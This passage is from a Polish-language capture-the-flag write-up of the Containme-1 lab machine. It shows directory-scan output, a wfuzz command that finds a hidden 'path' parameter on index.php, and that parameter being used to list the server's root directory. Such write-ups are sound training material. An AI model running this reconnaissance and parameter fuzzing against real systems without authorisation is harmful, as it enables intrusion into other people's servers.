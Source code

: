 ```console

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://172.16.1.218/ ----
+ http://172.16.1.218/index.html (CODE:200|SIZE:10918)
+ http://172.16.1.218/index.php (CODE:200|SIZE:329)
+ http://172.16.1.218/info.php (CODE:200|SIZE:69012)
```
To wystarczy, więcej nie trzeba skanować. W **index.html** jest zwykła strona **Debiana**. W **info.php** jest informacja o Apache, PHP i przy tym dowiadujemy się, że strona stoi na kontenerze LXD:
{: .text-justify}
<div class="notice--primary" markdown="1">
http://172.16.1.218/info.php
{% include gallery id="gallery1"  %}
</div>
**Index.php** prawdopodobnie uruchamia nam komendę listującą katalog. Poniżej strona bez źródła i ze źródłem. Jest również wskazówka:
{: .text-justify}
<div class="notice--primary" markdown="1">
http://172.16.1.218/index.php
{% include gallery id="gallery2_3"  %}
</div>
"Poffuzujmy" trochę i sprawdźmy jak **http://172.16.1.218/index.php** się zachowa z parametrem:
{: .text-justify}
```console
wfuzz  --filter 'h!=329' -c -w /usr/share/dirb/wordlists/common.txt  http://172.16.1.218/index.php?FUZZ=a

root@kali:/home/szikers/Containme-1# wfuzz  --filter 'h!=329' -c -w /usr/share/dirb/wordlists/common.txt  http://172.16.1.218/index.php?FUZZ=a
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.16.1.218/index.php?FUZZ=a
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002874:   200        10 L     13 W       79 Ch       "path"
```
Parametr **path** ma inną ilość znaków niż inne. **PHP** odwołuje się do **path** przez metodę **GET**. Zobaczmy czy się da wyświetlić jakiś katalog:
{: .text-justify}
<div class="notice--primary" markdown="1">
http://172.16.1.218/index.php?path=/
```html
	total 72K
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 .
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 ..
drwxr-xr-x   2 root   root    4.0K Jul 30 04:28 bin
drwxr-xr-x   2 root   root    4.0K Jun 29 03:07 boot
drwxr-xr-x   8 root   root     480 Aug 11 08:00 dev
drwxr-xr-x  81 root   root    4.0K Aug 11 14:59 etc
drwxr-xr-x   3 root   root    4.0K Jul 19 15:03 home
drwxr-xr-x  16 root   root    4.0K Jun 29 03:04 lib
drwxr-xr-x   2 root   root    4.0K Jun 29 03:03 lib64
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 media
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 mnt
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 opt
```